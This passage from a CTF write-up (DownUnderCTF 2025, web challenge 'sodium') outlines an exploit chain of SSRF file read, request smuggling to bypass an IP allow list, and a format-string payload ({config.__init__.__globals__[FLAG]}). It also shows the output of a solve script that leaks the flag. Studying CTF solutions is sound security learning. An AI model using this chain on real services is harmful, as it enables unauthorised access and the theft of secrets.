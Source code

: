 ![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2025/images/Pasted%20image%2020250723150132.png)

Now it didn't respond to us with the "Access denied" message and successfully bypassed the `authorized_ips` check!

## Exploitation

Armed with the above information, we can get the flag via:
1. Register and login a new account in service "Domain Scanner"
    1. Read the authentication key via SSRF to arbitrary file read
2. In service "RPC Service", get our request IP address by sending a GET request to the service
    1. Update the allow list with our request IP address by smuggling a GET request to `/update_allowlist` using SPILL.TERM technique
    2. Pollute/inject the `debug.log` file with our own format string vulnerability payload in endpoint `/stats`, which leaks the global variable `FLAG`
    3. Get the log via endpoint `/stats`

> Note: In the remote instance, our IP address will be rotated. So we need to update all of our IP addresses.

To automate the above steps, I've written the following Python solve script:

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2025/web/sodium/src)-[2025.07.23|15:08:55(HKT)]
└> python3 solve.py    
[*] Registering user DqXxJwOSxW with password "cUaRrEvBPH"...
[+] Registered successfully
[*] Logging in as user DqXxJwOSxW...
[+] Logged in successfully
[*] Reading authentication key via SSRF...
[+] Got authentication key: 2e48228116c6ae588ba6155859f0f2cf67e81f01
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.22
[+] Client IP address: 10.104.1.29
[+] Client IP address: 10.104.1.29
[*] Updating allow list to allow IP address 10.104.1.29...
[*] Updating allow list to allow IP address 10.104.1.22...
[+] The allow list should be updated
[*] Getting log with parameter (Without URL encoding): {config.__init__.__globals__[FLAG]}
[*] Getting log with parameter: {'get_log': True}
[+] Flag: DUCTF{th3y_s33_m3_smuggl1ng_4nd_ch41n1ng}
```
